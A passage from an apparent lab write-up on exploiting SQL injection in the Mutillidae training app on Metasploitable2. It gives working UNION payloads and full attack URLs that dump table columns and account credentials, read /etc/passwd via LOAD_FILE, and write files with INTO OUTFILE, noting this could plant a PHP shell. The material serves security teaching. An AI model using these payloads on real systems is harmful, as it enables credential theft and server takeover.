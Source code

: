 The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.


The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=sivaram%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 
![20](https://github.com/sivaram-R/sqlinjection/assets/121165794/8a7e97d9-6850-4e95-8fe0-fe1272a2a252)

![21](https://github.com/sivaram-R/sqlinjection/assets/121165794/1668fd47-44f9-4687-ad7f-c7c0808706ea)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=sivaram%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![22](https://github.com/sivaram-R/sqlinjection/assets/121165794/56fc761e-392e-4ffe-95cb-fad848e76727)

![23](https://github.com/sivaram-R/sqlinjection/assets/121165794/e6257257-1536-42c2-8ca3-fbc6b283e760)


## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![24](https://github.com/sivaram-R/sqlinjection/assets/121165794/eb4e7934-2521-4d82-8ab0-d68991a8fddd)
![25](https://github.com/sivaram-R/sqlinjection/assets/121165794/7666fcb7-711c-42a2-ade6-2c73fd728d40)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).




## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.

